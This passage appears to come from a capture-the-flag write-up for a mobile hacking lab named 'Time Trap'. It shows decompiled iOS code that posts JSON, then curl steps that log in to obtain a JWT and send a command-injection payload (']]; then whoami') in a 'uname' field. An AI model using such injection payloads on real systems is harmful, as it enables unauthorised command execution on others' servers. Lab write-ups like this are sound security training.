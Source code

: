 ```CPP
    local_188.unknown = _objc_msgSend(_OBJC_CLASS_$_NSJSONSerialization, 
                                      "dataWithJSONObject:options:error:", local_190, 0, 0);


    if (local_188.unknown == nullptr) {
        Swift::String::init("Failed to serialize parameters");
        return;
    }

    // Setting the request body with the JSON
    Foundation::URLRequest::$set_httpBody(local_148, local_188);

    // Send the request with NSURLSession
    NSURLRequest *local_220 = Foundation::URLRequest::_bridgeToObjectiveC(local_148);
    NSURLSession *local_210 = _objc_msgSend(_OBJC_CLASS_$_NSURLSession, "sharedSession");

    _objc_msgSend(local_210, "dataTaskWithRequest:completionHandler:", local_220, 
                  ^(NSData *data, NSURLResponse *response, NSError *error) {
        if (error != nullptr) {
            Swift::String::init("Error sending request");
        } else {
            Swift::String::init("Attendance updated successfully");
        }
    });

    // Free mem
    _objc_release(local_220);
    _objc_release(local_210);
}
```

We can inject a command in this request.
It seems that the command is sent **via POST**.
First, we need a **valid JWT**
Get it with
```bash
curl -X POST "https://mhl.pages.dev/time-trap/login" \
     -H "Content-Type: application/json" \
     --data '{"username":"test","password":"test"}'
```

Copy the **JWT**
And then create this file as payload
```JSON
{
	"uname":"]]; then whoami"
}
```

```bash
curl -X POST "https://mhl.pages.dev/time-trap/attendance" \
     -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJpYXQiOjE3Mzk0ODE3OTl9.skLusBB-PjBQ7dDJ1xfu4a_W2P5KLNoICbSm9UISRuQ" \
     -H "Content-Type: application/json" \
     -d @request.json
```
